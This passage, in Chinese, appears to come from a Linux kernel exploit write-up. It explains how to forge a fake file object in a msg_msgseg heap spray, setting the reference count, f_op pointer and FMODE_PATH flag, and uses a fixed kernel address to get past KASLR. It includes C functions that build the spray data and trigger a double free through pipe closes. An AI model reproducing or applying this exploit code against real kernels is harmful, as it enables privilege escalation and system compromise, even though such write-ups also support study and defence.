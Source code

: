 ```plain
    fput(filp);
    return retval;
}
```

正如我们所看到的，用全NULL覆盖文件对象会遇到三个障碍：

*   `file_count(filp)`将返回引用计数：0，从而导致`filp_close()`过早返回，
*   即使我们通过了第一个障碍，`filp->f_op`将为NULL，因此在检查是否定义了`flush()`时，我们会导致内核崩溃，
*   最后，我们可能希望减少升级到`Use-After-Free`的复杂性，因此，我们希望在`filp->f_mode`中设置FMODE\_PATH，  
    在这三个障碍中，将引用计数设置为1并将模式设置为`FMODE_PATH`很容易，我们只需要相对于覆盖我们的`msg_msgseg`的位置计算出文件中这些字段的偏移量，然后写入它们，但是确保`filp->f_op`被定义且`filp->f_op->flush`未定义需要更精细的技巧，这里的最小要求是我们有一个有效的内核指针用来替代`f_op`，此外，我们需要`flush()`为NULL，这意味着`f_op + 0x70`必须为NULL

```plain
/* We write this pointer to file->f_op so that f_op->flush == NULL.
 * This address and its contents are invariant across boots. */
#define NULL_MEM (0xfffffe0000002000)
```

尽管使用了KASLR和堆偏移随机化，但我们仍使用已知的固定地址，该地址在目标内核的所有执行期间都满足我们的需求，

```plain
static inline void set_file_spray_data(struct manager* mgr)
{

    /* Construct a fuzzy file object */
#define F_OP_OFF (88)
#define REF_OFF (128)
#define F_MODE_OFF (140)
#define MSGSEG_OFF (4000)

    memset((char *)mgr->spray, 0, MSG_SIZE);

    char *file_contents = (char *) mgr->spray + MSGSEG_OFF;
    uint8_t *f_op = file_contents + F_OP_OFF;
    uint8_t *refcount = file_contents + REF_OFF;
    uint8_t *f_mode = file_contents + F_MODE_OFF;

    *(uint64_t *) f_op = NULL_MEM;
    *(uint64_t *) refcount = 1;
    *(uint64_t *) f_mode = 0x4000;
}
```

因此，为了至少营造一个有效的文件对象的假象，我们准备好文件字段，如上所述，并像之前看到的那样将虚假的文件对象喷射到堆中，

```plain
static inline err_t double_free_file(struct manager *mgr, int32_t *hits)
{
    for (int i = 0; i < hits[N_PIPES]; i++) {
        int p_idx = hits[i];
        int in = mgr->pipes_in[p_idx][RD];
        close(in);
    }
    return SUCC;
}
```
